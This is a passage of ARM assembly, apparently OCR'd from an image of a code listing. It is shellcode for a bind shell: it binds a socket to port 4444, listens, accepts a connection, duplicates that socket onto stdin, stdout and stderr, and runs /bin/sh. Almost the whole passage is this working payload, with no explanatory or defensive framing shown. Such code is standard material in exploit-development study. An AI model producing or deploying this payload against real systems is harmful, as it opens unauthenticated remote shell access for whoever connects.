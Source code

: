 ```
    mov r2, #16          // struct address length
    add r7, #1           // r7 = 282 (bind) 
    svc #1
    nop

// listen(sockfd, 0) 
    mov r0, r4           // set r0 to saved host_sockid
    mov r1, #2        
    add r7, #2           // r7 = 284 (listen syscall number) 
    svc #1        

// accept(sockfd, NULL, NULL); 
    mov r0, r4           // set r0 to saved host_sockid
    sub r1, r1, r1       // set r1 to null
    sub r2, r2, r2       // set r2 to null
    add r7, #1           // r7 = 284+1 = 285 (accept syscall)
    svc #1               // r0 = client_sockid value
    mov r4, r0           // save new client_sockid value to r4  

// dup2(sockfd, 0) 
    mov r7, #63         // r7 = 63 (dup2 syscall number) 
    mov r0, r4          // r4 is the saved client_sockid 
    sub r1, r1, r1      // r1 = 0 (stdin) 
    svc #1

// dup2(sockfd, 1)
    mov r0, r4          // r4 is the saved client_sockid 
    add r1, #1          // r1 = 1 (stdout) 
    svc #1

// dup2(sockfd, 2) 
    mov r0, r4          // r4 is the saved client_sockid
    add r1, #1          // r1 = 2 (stderr) 
    svc #1

// execve("/bin/sh", 0, 0) 
    adr r0, shellcode   // r0 = location of "/bin/shX"
    eor r1, r1, r1      // clear register r1. R1 = 0
    eor r2, r2, r2      // clear register r2. r2 = 0
    strb r2, [r0, #7]   // store null-byte for AF_INET
    mov r7, #11         // execve syscall number
    svc #1
    nop

struct_addr:
.ascii "x02xff" // AF_INET 0xff will be NULLed 
.ascii "x11x5c" // port number 4444 
.byte 1,1,1,1 // IP Address 
shellcode:
.ascii "/bin/shX"
```
